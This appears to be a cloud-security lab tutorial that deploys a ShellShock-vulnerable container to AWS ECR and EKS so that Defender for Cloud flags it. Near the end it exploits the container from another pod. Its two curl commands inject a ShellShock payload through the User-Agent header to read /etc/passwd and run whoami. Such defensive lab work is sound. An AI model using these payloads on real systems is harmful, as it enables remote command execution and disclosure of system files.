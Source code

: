 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the AWS ECR for Defender to trigger a vulnerability scan

As similar approach to scan for vulnerabilities in Azure ACR, Defender for Cloud can also perfor scans for container images stored in AWS ECR

This is valid when you have configured the Defender connector for AWS, out of scope for this lab

First, create an AWS ECR to store your test images

```
aws ecr create-repository --repository-name <aws-ecr-name> --region <aws-region>
```

Then, you need to log into your AWS ECR from your working machine

```
aws ecr get-login-password --region <aws-region> | sudo docker login --username AWS --password-stdin <aws-accountID>.dkr.ecr.<aws-region>.amazonaws.com
```

Download a vulnerable image from Docker Hub

```
docker pull vulnerables/cve-2014-6271
```

Run the following command to properly tag your image to match your ECR account name.

```
docker tag vulnerables/cve-2014-6271 <aws-accountID>.dkr.ecr.<aws-region>.amazonaws.com/<aws-ecr-name>:cve-2014-6271
```

Finally, push the image to the registry

```
docker push <aws-accountID>.dkr.ecr.<aws-region>.amazonaws.com/<aws-ecr-name>:cve-2014-6271
```

In max of 2 hours Defender will show a recommendation to fix the vulnerability findings of your AWS ECR. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities



![AWS ECR Summary reco](/images/aws-ecr-summary.png)

And clicking on the affected resources you see the image details

![AWS ECR Summary reco](/images/aws-ecr-detail.png)

Now, it is time to deploy the container as a running pod in the AWS EKS environment

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```

Get the pods ip address using

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
```

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```

and

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ECR to resolve vulnerabilities found. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities





